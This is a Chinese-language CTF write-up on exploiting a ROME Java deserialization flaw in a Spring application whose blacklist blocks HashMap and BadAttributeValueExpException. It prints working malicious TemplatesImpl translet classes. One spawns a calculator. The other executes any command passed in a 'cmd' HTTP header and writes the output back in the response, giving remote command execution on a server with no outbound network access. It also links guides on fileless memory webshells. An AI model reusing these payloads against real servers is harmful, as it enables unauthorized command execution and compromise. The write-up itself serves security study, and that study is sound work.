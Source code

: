 >考点：
>
>- ROME反序列化
>
>- 不出网回显

反序列化类的题目，不会花太多功夫在链的构造上，毕竟都是现有的东西，跟着大佬的文章调试复现即可。

- [ROME 反序列化分析](https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)

回到题目，先看lib包，**rome-1.0**是可以直接打的，题目黑名单过滤了`java.util.HashMap`以及`javax.management.BadAttributeValueExpException`

![image-20211223161815666](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211223161815.png)

但是在finally却主动调用了`toString`，相当于是帮我们简化了poc链的构造。

最终Poc

![image-20211223162917363](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211223162917.png)

>回头检查发现写错了，读取class那里是一个二位byte数组，应改为：
>
>`byte[][] bytecodes = new byte[][]{Files.readAllBytes((new File("out/production/陇源战疫/Evil2.class")).toPath())};`

Evil2.java:

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil2 extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil2() throws Exception{
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

![image-20211223161538473](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211228124618.png)

 非常的成功，但是在比赛的时候题目环境不出外网。我们无法进行反弹shell或者dns外带数据等操作。这就需要利用原生request以及response构造回显。

这里根据时间线

1. [《基于内存 Webshell 的无文件攻击技术研究》](https://www.anquanke.com/post/id/198886) 观星大哥的文章，主要应用于Spring
2. [《linux下java反序列化通杀回显方法的低配版实现》](https://xz.aliyun.com/t/7307) 将回显结果写入文件操作符
3. [《Tomcat中一种半通用回显方法》](https://xz.aliyun.com/t/7348) 将执行命令的结果存入tomcat的response返回 
4. [《基于tomcat的内存 Webshell 无文件攻击技术》](https://xz.aliyun.com/t/7388) 动态注册filter实现回显 
5. [《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3) 通过Thread.currentThread.getContextClassLoader() 拿到request、response回显 
6. [《tomcat不出网回显连续剧第六集》](https://xz.aliyun.com/t/7535) 直接从Register拿到process对应的req

可以看到其实内存马的本质也是利用到了原生回显+路由创建。

这里用第五个方法构造Evil.class:

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.lang.reflect.Method;
import java.util.Scanner;
public class Evil extends AbstractTranslet
{
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil() throws Exception{
        Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }
}
```

![image-20211223181452136](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211223181452.png)